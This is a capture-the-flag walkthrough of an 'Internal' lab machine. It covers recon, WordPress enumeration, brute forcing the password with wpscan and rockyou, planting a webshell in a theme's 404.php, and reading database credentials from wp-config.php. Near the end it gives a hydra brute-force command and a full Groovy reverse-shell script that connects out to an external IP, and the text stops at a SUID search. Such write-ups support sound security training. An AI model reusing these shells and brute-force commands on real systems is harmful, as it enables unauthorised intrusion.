


# Internal

#Linux #Wordpress #Linux #PrivEsc 

# Recon

I started running nmap and I got the result:

```
$ nmap -sV -sC -p- 10.66.179.64 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-05 05:26 -0500
Nmap scan report for internal.thm (10.66.179.64)
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.73 seconds
```

Next, I used ffuf to find some possible directories.

```
$ ffuf -H "User-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.3" -u http://10.66.179.64/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.66.179.64/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.3
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

blog                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 127ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 127ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 127ms]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 127ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 127ms]
:: Progress: [29999/29999] :: Job [1/1] :: 311 req/sec :: Duration: [0:01:39] :: Errors: 1 ::

```

## Exploiting

First, I need to ensure that I've modified my hosts file to reflect `internal.thm`.

I found an interesting directory called `wordpress`.

<figure><figcaption></figcaption></figure>

I noticed that there is a login page `wp-login.php` hide in the `blog` directory.

<figure><figcaption></figcaption></figure>

I was able to enumerate the `admin` user trying manually and by running wpscan.

```
$ wpscan --url http://internal.thm/wordpress --enumerate u --api-token X4yaOp3ZWgd...
```

```
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Login Error Messages (Aggressive Detection)
```

I was also able to discover the password by brute force, using a wordlist to find it.

```
$ wpscan --url http://internal.thm/wordpress --usernames admin --passwords /usr/share/wordlists/rockyou.txt --api-token X4yaOp3ZWgdk
```

<figure><figcaption></figcaption></figure>

Once I can log in wordpress, I can use a webshell to gain access to the machine. I edited the 404.php file so what then this page is accessed, I will get the shell.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
## Privilege Escalation

I started to looking for some interesting config files. 

```
$ cat wp-config.php 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );


```

I also tried to list aubreanna's files, but I didn't have permission to access her folder.

```
www-data@internal:/home$ ls -la
total 12
drwxr-xr-x  3 root      root      4096 Aug  3  2020 .
drwxr-xr-x 24 root      root      4096 Aug  3  2020 ..
drwx------  7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
www-data@internal:/home$ cd aubreanna/
bash: cd: aubreanna/: Permission denied
```

I found a file called `wp-save.txt` on `/opt` folder.

<figure><figcaption></figcaption></figure>

Looks interesting! Let's try to access via ssh with these credentials. 

<figure><figcaption></figcaption></figure>


```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 -V -f http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password'
```


```
Thread.start {
String host="192.168.183.77";
int port=31337;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```


```
www-data@internal:/home$ find / -perm /4000 2>/dev/null
```